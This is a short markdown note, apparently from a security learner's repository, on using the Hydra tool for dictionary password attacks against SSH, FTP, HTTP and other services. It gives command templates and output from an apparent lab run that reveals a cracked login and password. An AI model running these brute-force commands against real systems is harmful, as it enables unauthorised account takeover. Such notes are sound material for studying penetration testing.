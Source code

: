 # Hydra, password breaker

Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.

## How to use hydra
You will have to specify your username, password, server and service used
'hydra -l <username> -p <password> <server> <service>'
Put options in capital if you want to you a list of a file for the user or password
'hydra -L <usersFile> -P <passwdFile> <server> <service>'

## Results of execution of Hydra
[DATA] attacking ssh://10.10.137.76:22/
[22][ssh] host: 10.10.137.76    login: molly    password: butterfly
1 of 1 target successfully completed, 1 valid password found